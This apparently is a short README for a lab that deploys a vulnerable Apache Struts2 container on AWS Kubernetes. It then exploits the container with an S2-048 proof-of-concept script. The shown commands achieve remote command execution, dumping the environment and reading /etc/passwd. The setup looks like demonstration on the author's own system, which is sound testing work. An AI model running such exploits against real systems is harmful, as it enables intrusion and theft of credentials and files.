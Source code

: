 # struts_poc

git clone https://github.com/hook-s3c/apache-struts2-PoC

cd apache-struts2-PoC/

docker build -t struts .

docker run -it --rm -d -p 8080:8080 struts:latest

docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest

#public login to us-west-2 not supported by aws

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws

docker push public.ecr.aws/v9f6i2g3/stuff:latest

kubectl apply -f strust-deploy-and-service.yaml

ubuntu@brett-jumpbox:~/apache-struts2-PoC$ !?get serv
kubectl get service -n struts
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE
struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m
ubuntu@brett-jumpbox:~/apache-struts2-PoC$

ubuntu@brett-jumpbox:~/apache-struts2-PoC$ python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'
[Execute]: env

KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
STRUTS_PORT_8080_TCP_PORT=8080
STRUTS_SERVICE_PORT=8080
HOSTNAME=struts-7d8c95bbbd-9p9pp
JAVA_HOME=/usr/local/openjdk-8
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5 541FBE7D8F78B25E055DDEE13C370389288584E7 61B832AC2F1C5A90F0F9B00A1C506407564C17A3 713DA88BE50911535FE716F5208B0AB1D63011C7 79F7026C690BAA50B92CD8B66A3AD3F4F22C4FED 9BA44C2621385CB966EBA586F72C284D731FABEE A27677289986DB50844682F8ACB77FC2E86E29AC A9C5DF4D22E99998D9875A5110C01C5A2F6059E7 DCFD35E0BF8CA7344752DE8B6FB21E8933C60243 F3A04C595DB5B6A5F1ECA43E3B7BBB100D811BBE F7DA48BB64BCB84ECBA7EE6935CD23C10D498E23
STRUTS_PORT=tcp://10.100.144.108:8080
PWD=/usr/local/tomcat
TOMCAT_SHA512=612e830913bf1401bc9540e2273e465b0ee7ef63750a9969a80f1e9da9edb4888aa621fcc6fa5ba23cff94a40e91eb97e3f969b8064dabd49b2d0ea29e59b57e
TOMCAT_MAJOR=7
HOME=/root
LANG=C.UTF-8
KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
TOMCAT_NATIVE_LIBDIR=/usr/local/tomcat/native-jni-lib
CATALINA_HOME=/usr/local/tomcat
STRUTS_PORT_8080_TCP_PROTO=tcp
SHLVL=0
KUBERNETES_PORT_443_TCP_PROTO=tcp
STRUTS_SERVICE_HOST=10.100.144.108
JDK_JAVA_OPTIONS= --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.util.concurrent=ALL-UNNAMED --add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED
KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib
KUBERNETES_SERVICE_HOST=10.100.0.1
KUBERNETES_PORT=tcp://10.100.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
PATH=/usr/local/tomcat/bin:/usr/local/openjdk-8/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
TOMCAT_VERSION=7.0.109
STRUTS_PORT_8080_TCP=tcp://10.100.144.108:8080
JAVA_VERSION=8u292
STRUTS_PORT_8080_TCP_ADDR=10.100.144.108
_=/usr/bin/env

ubuntu@brett-jumpbox:~/apache-struts2-PoC$

curl 127.0.0.1:8080/showcase.action -v

#python3 -m venv .

python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'
![apache_struts_poc](https://user-images.githubusercontent.com/4404271/152885401-97a37adf-6aa8-4b97-847a-c665889b9b60.gif)
